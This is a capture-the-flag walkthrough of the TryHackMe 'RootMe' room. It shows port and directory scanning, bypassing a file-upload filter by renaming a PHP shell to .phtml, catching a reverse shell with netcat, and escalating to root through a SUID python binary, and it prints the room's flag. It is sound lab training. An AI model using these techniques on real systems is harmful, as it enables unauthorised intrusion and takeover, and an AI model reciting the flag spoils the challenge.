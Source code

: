 # RootMe (THM)
https://tryhackme.com/room/rrootme


## Step 1: Port scan (discovery phase skipped as THM gives you the IP address)
### Command used: nmap<br>
<br>

```
nmap -sV -p22,80 rootme.vul
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-06 02:06 CDT
Nmap scan report for rootme.vul (10.10.74.64)
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds
```

## Step 2: HTTP enumeration
### Command used: gobuster
<br>

```
gobuster dir --url http://rootme.vul --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.vul
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/06 02:07:30 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.hta                 (Status: 403) [Size: 275]
/css                  (Status: 301) [Size: 306] [--> http://rootme.vul/css/]
/index.php            (Status: 200) [Size: 616]                             
/js                   (Status: 301) [Size: 305] [--> http://rootme.vul/js/] 
/panel                (Status: 301) [Size: 308] [--> http://rootme.vul/panel/]
/server-status        (Status: 403) [Size: 275]                               
/uploads              (Status: 301) [Size: 310] [--> http://rootme.vul/uploads/]
                                                                                
===============================================================
2022/04/06 02:09:14 Finished
===============================================================
```

## Step 3: Reverse PHP shell
<br>

Nothing interesting at the base URL:<br><br>

![browsing the url](./docs/rootme/rootme_01_web.png)

Navigating to /panel brings us to a file upload page. Of course, the first thing we're going to do is try and upload a PHP shell, but .php files are not allowed:<br><br>

![php shell upload failure](./docs/rootme/rootme_02_panel1.png)

...but .phtml files ARE allowed! Renaming our file to *.phtml allowed us to upload it:<br><br>

![php shell renamed to phtml success](./docs/rootme/rootme_03_panel2.png)

*For this step, p0wny@shell was used* (https://github.com/flozz/p0wny-shell)<br>

(/uploads/shell.phtml)

![p0wny@shell](./docs/rootme/rootme_04_p0wny.png)

Here, we have our first flag - user.txt:<br><br>

![user flag](./docs/rootme/rootme_05_userflag.png)

We're not done yet. There's still a root.txt flag somewhere. We change course and upload a PHP reverse shell (this should have been done in the first place) (https://pentestmonkey.net/tools/web-shells/php-reverse-shell). We configure the shell, start a listener on netcat, and launch the shell:

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.105.239] from (UNKNOWN) [10.10.74.64] 38480
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:07:34 up  1:05,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We then spawn bash from Python:

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
export TERM=xterm
```

## Step 4: Privilege escalation
<br>

Now that we have a stable shell, we look for binaries with the SUID bit enabled:

```
find / -type f -user root -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
```

The interesting find here /usr/bin/python. We head on over to GTFOBins and search for possible exploits (https://gtfobins.github.io/gtfobins/python/#suid).

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

Now that we're running as root, we go look for the root.txt flag:

```
# cd root
cd root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```